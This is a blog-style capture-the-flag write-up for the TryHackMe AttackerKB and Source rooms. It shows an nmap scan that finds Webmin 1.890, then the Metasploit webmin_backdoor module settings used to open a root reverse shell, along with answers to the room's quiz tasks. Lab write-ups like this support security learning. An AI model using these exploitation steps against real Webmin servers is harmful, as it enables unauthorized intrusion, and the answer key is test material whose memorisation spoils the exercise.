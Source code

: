 ```yaml
---
layout: post
title: AttackerKB & Source | Writeup
categories: CTF
author: ThelastVvV
date: '2020-07-11 18:42:53 +0800'
tags:
  - CTF
  - CyberSecurity
  - TryHackMe
published: true
---
```




- [AttackerKB & Source](#attackerkb--source)
  - [Enumeration:](#enumeration)
  - [Exploitation](#exploitation)
  - [Reverse shell](#reverse-shell)
  - [AttackerKB Tasks:](#attackerkb-tasks)

<!-- toc -->

## AttackerKB & Source

 Hallå gubbar , Today i will show you how easy this boxes are in a very simple explanation both [AttackerKB](https://tryhackme.com/room/attackerkb) &  [Source](https://tryhackme.com/room/source).



### Enumeration:

```sh
$ nmap -T4 -A -v -Pn Box-ip
```
Results:



> PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
| 256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_ 256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open http MiniServ 1.890 (Webmin httpd)


### Exploitation
Source and AttackerKB:

One of the attached files of vulnerability is metasploit module that will allow us reverse shell the box so let open Metasploit


[https://github.com/rapid7/metasploit-framework/pull/12219]()


using this command:

```sh
$ msfconsole
```



then search "the exploit name or version"


![alt text](https://thelastvvv.github.io/images/posts/1/attack.png "search")


then choose 
```sh
$ unix/webapp/webmin_backdoor
```

![alt text](https://thelastvvv.github.io/images/posts/1/attavk.png "metasploit")



> RHOSTS : Box-ip

>RPORT: Box-port

>LHOST: Your-ip

>SSL : 1


### Reverse shell


![alt text](https://thelastvvv.github.io/images/posts/1/reverse.png "shell")


volia session opened we are root so let check the hints and hunt the flags

User Flag:

![alt text](https://thelastvvv.github.io/images/posts/1/flag1.png "flag1")


Root Flag:


![alt text](https://thelastvvv.github.io/images/posts/1/flagroot.png "flag2")

### AttackerKB Tasks:

Task 2 :

-Discovering the Lay of the Land :

From Nmap results we can find all our answers .....

Answers: 
`2-Webmin`

`3-1.890`

`4- from cert bellow figure it out`

Task 3 :

 learning to fly:

Just explore Attackerkb then we will be able to answer the following "important to copy directly from Attackerkb site 

Answers: 
`3 1.890` 

`4 supply chain`

 `5 aug172019`

`6 githubfileinthetitle`



See you next time .....
